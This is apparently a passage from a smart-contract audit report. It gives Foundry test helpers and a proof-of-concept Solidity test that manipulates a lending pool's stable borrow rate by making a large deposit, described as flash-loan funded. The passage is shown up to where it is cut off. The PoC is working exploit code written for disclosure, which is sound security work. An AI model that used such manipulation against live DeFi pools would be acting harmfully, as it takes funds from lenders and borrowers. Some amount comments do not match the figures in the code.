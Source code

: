 ```solidity
        vm.prank(bob);
        spoke.repay(DUMMY_MESSAGE_PARAMS, _accountId, _loanId, _amount, maxOverRepayment);
    }

    function _getMsgId() internal view returns (bytes32) {
        uint256 s = adapter.sequence();
        return keccak256(abi.encodePacked(PREFIX, s));
    }

    function _checkSeccuss(bytes32 msgId) internal {
        vm.expectEmit();
        emit BridgeRouter.MessageSucceeded(1, msgId);
    }

    function _checkMessageSeccuss() internal {
        // vm.exepctEmit(true,false,false);
        // emit BridgeRouter.MessageSuccess(0,"");
    }
}


```

then please add the file that includes the poc to `test/pocs/manipulateStableRatePoC.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "./base_test.sol";
import "@forge-std/console.sol";

contract Pocs is baseTest {
    function _getStableRateUsdc() internal returns (uint256) {
        HubPoolState.StableBorrowData memory stableData = hubPoolUsdc.getStableBorrowData();
        return stableData.interestRate;
    }

    function test_ManipulateStableBorrowRateThrough() public {
        // initialize caps
        vm.startPrank(LISTING_ROLE);
        loanManager.updateLoanPoolCaps(1, hubPoolUsdc.getPoolId(), 100000e6, 10000e6);
        hubPoolUsdc.updateCapsData(HubPoolState.CapsData(type(uint64).max, type(uint64).max, 1e18));
        loanManager.updateLoanPoolCaps(2, hubPoolUsdc.getPoolId(), 100000e6, 10000e6);
        vm.stopPrank();
        // initialize pool with variable borrows
        uint256 bobDeposit = 20000e6; // 20 USDC
        _approveUsdc(bob, address(spokeUsdc), bobDeposit);
        _deposit(bob, bobAccountId, bobLoanIds[0], bobDeposit, spokeUsdc);

        _borrowVariable(bob, bobAccountId, bobLoanIds[0], hubPoolUsdc.getPoolId(), 10000e6);
        vm.warp(block.timestamp + 2 weeks);
        console.log("POOL + Borrows initialized + time has passed");
        //
        console.log("Initial borrowstableRate of pool :", _getStableRateUsdc());

        // @audit deposit large amount, for example using flash loan
        uint256 largeUsdcDeposit = 100000e6; // 1 million USDC
        _approveUsdc(alice, address(spokeUsdc), largeUsdcDeposit);
        _deposit(alice, aliceAccountId, aliceLoanIds[0], largeUsdcDeposit, spokeUsdc);
        console.log("Start Attack by performing large USDC deposit through flashLoan");

        console.log("borrowstableRate after deposit   :", _getStableRateUsdc());
```